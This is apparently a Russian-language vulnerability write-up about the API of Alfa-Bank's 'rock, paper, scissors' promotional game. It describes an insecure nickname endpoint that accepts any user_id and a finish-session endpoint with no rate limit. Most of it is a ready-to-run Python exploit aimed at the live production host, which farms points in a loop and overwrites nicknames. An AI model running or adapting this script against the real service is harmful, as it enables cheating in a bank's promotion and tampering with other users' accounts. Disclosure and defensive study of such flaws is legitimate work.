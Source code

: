 # Тестирование игры «Камень, ножницы, бумага» от Альфа-Банка

## Обзор

В ходе тестирования API были обнаружены уязвимости, позволяющие:
- Изменять никнейм пользователей используя известный user-id.
- Накручивать баллы в игровой сессии, передавая максимальное значение win_count, а также обходить нормальный игровой процесс, сразу завершая сессию.

## Описание уязвимостей

### 1. Изменение никнейма

**Описание:**  
Обнаружена возможность смены никнейма для любого созданного аккаунта. При отправке POST-запроса на эндпоинт `/api/rps/create-nick/<user_id>/` с нужным значением поля `nick` можно установить желаемый ник для любого пользователя.

![Пример запроса](images/1.png)

### 2. Накрутка баллов в игровой сессии

**Описание:**  
В API сервиса отсутствует ограничение на количество отправляемых POST-запросов на эндпоинт `/api/rps/finish-game-session/<user_id>/` за определённый промежуток времени. При этом в ответе сервера присутствует поле `played_in_last_4_hours`, однако оно, видимо, не используется для контроля или ограничения частоты запросов.

![Пример запроса на завершение игровой сессии](images/2.png)

При этом пользователь в нормальном процессе игры отправляет ещё запрос о старте сессии, однако уязвимость позволяет сразу отправлять запрос на завершение сессии, получая очки без фактического прохождения игры:

![](images/3.png)

## Демонстрация эксплойта (sploit.py)

Ниже представлено видео, демонстрирующее работу эксплойта.




Ниже приведён пример кода на Python, демонстрирующий эксплойт для обеих уязвимостей:

```python
import requests
import argparse

API_KEY = ""  # Используйте свой api-key
ALFABANK_USER_ID = ""  # Используйте свой user_id


def send_finish_game_session(
        master_of: str,
        win_count: int,
        device: str,
        api_key: str = API_KEY,
        alfabank_user_id: str = ALFABANK_USER_ID
) -> tuple:
    url = f"https://tiger.prod.qortex.ru/api/rps/finish-game-session/{alfabank_user_id}/"

    headers = {
        "Authorization": f"Api-Key {api_key}",
        "Content-Type": "application/json",
        "Referer": "https://savemoney.alfabank.ru/",
    }

    payload = {
        "master_of": master_of,
        "win_count": win_count,
        "alfabank_user_id": alfabank_user_id,
        "device": device
    }

    response = requests.post(url, json=payload, headers=headers, timeout=10)
    return response.json(), response.status_code


def send_create_nick(
        nick: str,
        api_key: str = API_KEY,
        alfabank_user_id: str = ALFABANK_USER_ID
) -> tuple:
    url = f"https://tiger.prod.qortex.ru/api/rps/create-nick/{alfabank_user_id}/"

    headers = {
        "Authorization": f"Api-Key {api_key}",
        "Content-Type": "application/json",
        "Referer": "https://savemoney.alfabank.ru/",
    }

    payload = {"nick": nick}

    response = requests.post(url, json=payload, headers=headers, timeout=10)
    return response.json(), response.status_code


def main(num_requests: int = 0, nick: str = None):
    if nick:
        send_create_nick(nick=nick)

    if num_requests > 0:
        for i in range(num_requests):
            send_finish_game_session(
                master_of="rock",
                win_count=5,
                device="iphone"
            )


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument(
        '--num_requests',
        type=int,
        default=0,
    )
    parser.add_argument(
        '--nick',
        type=str,
    )
    args = parser.parse_args()

    main(
        num_requests=args.num_requests,
        nick=args.nick
    )
```
